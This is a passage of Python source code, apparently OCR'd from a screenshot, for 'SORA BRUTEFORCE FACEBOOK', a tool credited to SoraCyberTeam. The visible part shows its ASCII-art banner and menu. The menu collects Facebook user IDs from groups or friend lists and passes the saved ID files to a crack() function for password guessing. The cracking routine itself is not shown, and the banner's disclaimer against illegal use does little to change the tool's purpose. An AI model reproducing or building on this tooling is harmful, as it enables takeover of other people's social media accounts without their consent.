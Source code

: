 			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/MBFbteman.txt')
			fid_bteman = []
	return 0
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?]Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/MBFbgroup.txt')
			fid_bgroup = []
	return 0
def menu():
	tampil('''\rh
< X-K1R4 >
 --------
    \
     \
                                   .::!!!!!!!:.
  .!!!!!:.                        .:!!!!!!!!!!!!
  ~~~~!!!!!!.                 .:!!!!!!!!!UWWW$$$
      :$$NWX!!:           .:!!!!!!XUWW$$$$$$$$$P
      $$$$$##WX!:      .<!!!!UW$$$$"  $$$$$$$$#
      $$$$$  $$$UX   :!!UW$$$$$$$$$   4$$$$$*
      ^$$$B  $$$$\     $$$$$$$$$$$$   d$$R"
        "*$bd$$$$      '*$$$$$$$$$$$o+#"
             """"          """""""

\rp###########################################################
#             \rb*SORA BRUTEFORCE FACEBOOK*\rp                 #
# \rhBY\rc                                             X-K1R4  \rp#
# \rhGroup FB\rk  soracyberteam@gmail.com                      \rp#
# \rhTeam\rk                     SoraCyberTeam                 \rp#
#    \rmJangan Gunakan Alat Ini Untuk Tujuan IllegaL        \rp#
###########################################################''')
	tampil('''\rk%s\n\rc1 \rbAmbil id dari group\n\rc2 \rbAmbil id dari daftar teman\n\rc3 \rmKELUAR\n\rk%s'''%('#'*20,'#'*20))
	i = inputM('[?]PILIH',[1,2,3])
	if i == 1:
		lanjutG()
		idgroup()
	elif i == 2:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
menu()
